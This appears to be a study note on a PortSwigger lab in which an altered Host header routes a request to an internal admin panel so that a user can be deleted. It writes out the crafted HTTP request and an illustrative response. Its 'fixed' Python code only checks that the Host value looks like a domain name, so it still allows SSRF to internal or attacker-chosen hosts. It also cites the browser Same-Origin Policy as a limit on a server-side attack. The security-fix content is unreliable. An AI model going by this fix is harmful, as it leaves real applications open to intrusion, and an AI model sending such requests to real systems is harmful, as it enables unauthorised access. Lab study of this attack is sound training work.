

## Lab 4: Routing-Based SSRF

In this lab, we will explore a specific type of HTTP Host Header attack known as routing-based Server-Side Request Forgery (SSRF). The goal is to exploit the `Host` header to access an internal admin panel and delete a user.

### Lab Setup

To access the lab, follow these steps:

1. Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security).
2. Sign up for an account if you don't already have one.
3. Log in and navigate to the Academy section.
4. Search for "host header attacks" and select Lab 4 titled "routing-based SSRF".

### Vulnerability Overview

The lab is vulnerable to routing-based SSRF via the `Host` header. The server improperly handles the `Host` header, allowing an attacker to manipulate it to access internal resources.

### Exploitation Steps

To exploit this vulnerability, follow these steps:

1. **Identify the Vulnerable Parameter**: The vulnerable parameter is the `Host` header.
2. **Craft the Malicious Request**: Modify the `Host` header to point to an internal IP address where the admin panel is located.
3. **Access the Admin Panel**: Use the modified request to access the internal admin panel.
4. **Delete the User**: Once inside the admin panel, delete the user named "Carlos".

### Detailed Example

Let's walk through a detailed example of how to exploit this vulnerability.

#### Step 1: Identify the Vulnerable Parameter

The vulnerable parameter is the `Host` header. We need to modify this header to point to an internal IP address.

#### Step 2: Craft the Malicious Request

We will use Burp Suite to craft and send the malicious request. Here is an example of the HTTP request:

```http
GET /admin HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: close
```

In this example, we have set the `Host` header to `192.168.1.10`, which is the internal IP address of the admin panel.

#### Step 3: Access the Admin Panel

Send the crafted request using Burp Suite. If the server is vulnerable, it will route the request to the internal IP address and return the admin panel.

#### Step 4: Delete the User

Once inside the admin panel, locate the user "Carlos" and delete them.

### Full HTTP Request and Response

Here is the full HTTP request and response:

#### Request

```http
GET /admin HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### Response

```http
HTTP/1.1 200 OK
Date: Tue, 14 Sep 2021 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Admin Panel</title>
</head>
<body>
    <h1>Welcome to the Admin Panel</h1>
    <ul>
        <li><a href="/admin/users">Users</a></li>
    </ul>
</body>
</html>
```

### Mermaid Diagrams

#### Network Topology



This diagram shows the flow of the request from the client to the server, then to the internal server, and finally back to the client.

### Common Mistakes and Pitfalls

- **Incorrect IP Address**: Ensure that the IP address you are targeting is correct and reachable.
- **Firewall Restrictions**: Be aware of any firewall restrictions that may block your requests.
- **Same-Origin Policy**: Some browsers enforce strict Same-Origin Policy restrictions, which may prevent certain types of attacks.

### How to Prevent / Defend

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual traffic patterns.
- **IDS/IPS**: Use Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to detect and block suspicious activity.

#### Prevention

- **Validate and Sanitize Input**: Ensure that the `Host` header is validated and sanitized before being used.
- **Restrict Access**: Restrict access to internal resources and ensure that only authorized users can access them.
- **Use Secure Coding Practices**: Follow secure coding practices to prevent common vulnerabilities.

#### Secure Code Fix

##### Vulnerable Code

```python
def handle_request(request):
    host = request.headers.get('Host')
    response = requests.get(f'http://{host}/admin')
    return response.text
```

##### Fixed Code

```python
import re

def handle_request(request):
    host = request.headers.get('Host')
    if re.match(r'^[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$', host):
        response = requests.get(f'http://{host}/admin')
        return response.text
    else:
        return "Invalid Host header"
```

In the fixed code, we validate the `Host` header using a regular expression to ensure it matches a valid domain name.

### Conclusion

Understanding and preventing HTTP Host Header attacks is crucial for maintaining the security of web applications. By following secure coding practices and implementing proper validation and sanitization, you can protect against these types of vulnerabilities.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs related to HTTP Host Header attacks.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security techniques.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application for learning and testing security vulnerabilities.

By completing these labs, you can gain practical experience in identifying and mitigating HTTP Host Header attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/16-HTTP Host Header Attacks/05-Lab 4 Routing based SSRF/01-Introduction to HTTP Host Header Attacks|Introduction to HTTP Host Header Attacks]] | [[Web Security (PortSwigger)/16-HTTP Host Header Attacks/05-Lab 4 Routing based SSRF/00-Overview|Overview]] | [[03-HTTP Host Header Attacks and SSRF Vulnerabilities|HTTP Host Header Attacks and SSRF Vulnerabilities]]
